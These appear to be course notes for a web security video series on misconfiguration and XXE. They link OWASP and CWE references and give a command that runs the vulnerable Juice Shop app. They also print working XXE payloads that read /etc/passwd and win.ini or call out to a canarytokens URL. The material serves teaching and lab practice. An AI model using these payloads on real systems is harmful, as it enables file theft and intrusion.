 # Video 6.2

* [A05:2021 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration)

# Video 6.3

* [[OWASP] Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
* [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
* [CWE-756: Missing Custom Error Page](https://cwe.mitre.org/data/definitions/756.html)

```xml
<?xml version="1.0"  encoding="UTF-8" ?>
<!DOCTYPE Wares [
  <!ENTITY ltd "Limited Edition ™">
]>
<Wares>
  <Item>Most Beautiful Apple (&ltd;)</Item>
  <Item>Highest Possible Mountain (&ltd;)</Item>
  <Item>Deepest Darkest Cave (&ltd;)</Item>
</Wares>
```

```sh
# Load unsafe.yml that enables XXE challenge
# https://github.com/juice-shop/juice-shop/tree/master/config
sudo docker run --rm -it -e "NODE_ENV=unsafe" -d -p 127.0.0.1:3000:3000 bkimminich/juice-shop
```

# Video 6.4

* [Canarytokens](https://canarytokens.org/)
* [Webhook.site](https://webhook.site/)

## Different payloads

```js
var payload = `<?xml version="1.0"  encoding="UTF-8" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://canarytokens.com/URL">
]>
<foo>
  &xxe;
</foo>`;

fetch("http://localhost:3005/parser", {
  "headers": {
    "content-type": "text/xml",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site"
  },
  "referrer": "http://localhost:3001/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": payload,
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///c:/windows/win.ini">
]>
<foo>
  &xxe;
</foo>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://canarytokens.com/URL">
]>
<foo>
  &xxe;
</foo>
```
